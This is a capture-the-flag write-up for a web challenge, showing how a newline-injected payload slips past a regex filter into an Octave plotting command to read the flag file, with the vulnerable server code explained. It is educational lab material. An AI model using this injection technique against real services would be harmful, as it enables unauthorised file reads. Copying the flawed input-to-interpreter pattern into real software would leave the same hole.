 ### Challenge
Name: Ohio Instuments 84
Category: web
Difficulty: medium

### Solution
Enter the URL `https://ohio-instruments-84.chall.pwnoh.io/x)%0Atitle(fileread(char(readdir(char(46))(8)))`
You receive the flag as an image, wherever you see a subscript then some character c, it appears as _c in the flag
![Response of the API request](result.png)

### Explanation
The payload in this case is a regex-limited string injection into octave
```javascript
if (!/^([x()+*\-\.\^/\d\s]|(\w+\())+$/.test(expr)) {
    throw new Error("Invalid expression");
}
const filename = `${crypto.randomUUID()}.jpg`;
const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
```
#### Regex breakdown
`x, (, ), +, *, -, ., ^, \d (digits), \s (whitespace)` are all valid characters
You can also use any `\w (alphanumeric or underscore)` character followed by a `(`
[regexr](https://regexr.com/) is a great tool for writing regex validated payloads

#### Octave payload breakdown
`%0A` is a newline character, so if we look at the command the server runs
```javascript
const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
```
The expanded octave script looks like
```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')
```
After substitution
```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, x)
title(fileread(char(readdir(char(46))(8)))); saveas(h, 'xxxxxxxxxxxxxxxx.png')
```
So we plot a line, and run `title(fileread(char(readdir(char(46))(8))))`
`char(46)` returns the character with ASCII code 46 (`"."`)
`readdir(".")` returns a cell array of strings with filenames in the current directory
`readdir(".")(8)` gets the 8th item from that cell array (`"flag.txt"`)
`char("flag.txt")` casts a cell type to a string
`fileread("flag.txt")` reads the content of the flag `"bctf{the_flag_contents}"`
`title("bctf{the_flag_contents}")` writes the flag to the plot
Then it is sent to use with the flag!